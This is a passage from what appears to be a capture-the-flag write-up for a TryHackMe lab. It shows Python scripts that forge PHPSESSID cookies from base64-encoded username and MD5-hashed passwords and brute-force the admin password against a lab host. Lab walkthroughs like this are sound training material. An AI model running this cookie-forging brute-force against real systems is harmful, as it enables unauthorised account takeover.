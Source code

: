 ```python
response = requests.get(url=url, headers=header)

# print the response
print(response.text)
```

The script worked, returning `welcome test` instead of `welcome guest`, which confirmed the session cookie was valid:
```html
 <h1>Welcome test</h1>
```

I modified the script to brute-force the "admin" password using the previously found password list:
```python
username        = "admin"
url             = "http://10.10.125.174/administration.php"

# read the password list
with open ("passwords_list.txt", 'r') as _f:
    password_file = [l.strip() for l in _f.readlines()]

print(f"\033[96m[*] {len(password_file)} passwords found")

for password in password_file:
   
    # md5 hash of the password
    md5_password = hashlib.md5(password.encode()).hexdigest()

    # base64 encoding
    authentication_string = base64.b64encode(f"{username}:{md5_password}".encode())

    # encode special characters
    authentication_string = str(authentication_string.decode()).replace("=","%3D")

    # create the authentication header
    header = {
        "Cookie": f"PHPSESSID={authentication_string}"
    } 

    # requets to the website
    response = requests.get(url=url, headers=header)
    
    # print the response
    if "Access denied" in response.text:
        print("\033[93m[-]  access denied :", password)
    else:
        print("\033[92m[+] access granted :", password)
        break
```

The script identified the valid password for the admin:

![Admin password found](/assets/img/tryhackme/Hijack/thm_hijack_5.jpg)
